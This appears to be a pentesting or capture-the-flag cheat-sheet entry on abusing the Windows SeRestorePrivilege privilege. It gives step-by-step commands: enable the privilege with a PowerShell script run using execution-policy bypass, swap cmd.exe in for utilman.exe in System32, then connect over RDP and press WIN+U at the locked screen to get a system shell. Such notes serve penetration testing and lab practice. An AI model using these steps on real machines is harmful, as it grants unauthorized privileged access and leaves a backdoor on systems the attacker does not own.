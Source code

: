 # SeRestorePrivilege

## Other privileges to abuse


There's a good list of possible privileges to abuse [here](https://github.com/gtworek/Priv2Admin).

## The abuse

This just follows the example from the above link, but this is written out a little more:

if you see:

```
...
SeRestorePrivilege            Restore files and directories  Enabled
...
```

in your privileges, run this script:

https://raw.githubusercontent.com/gtworek/PSBits/master/Misc/EnableSeRestorePrivilege.ps1

```
powershell -ep bypass ./EnableSeRestorePrivilege.ps1
```

now, you have the privilege actually enabled in your shell.

This makes it possible for you to `move` executables in C:/Windows/System32.

So you can abuse it by doing:

```
move utilman.exe utilman.exe.old
move cmd.exe utilman.exe
```

(note that we only have access to `move`, not `copy` in the directory).

From a locked screen, you can now get a shell by pressing WIN+U.

Obviously, this requires RDP being enabled, but you don't actually need a user with RDP access.
You can simply do:

```
rdesktop $TARGET_IP
```

And you have a locked screen you can work with.

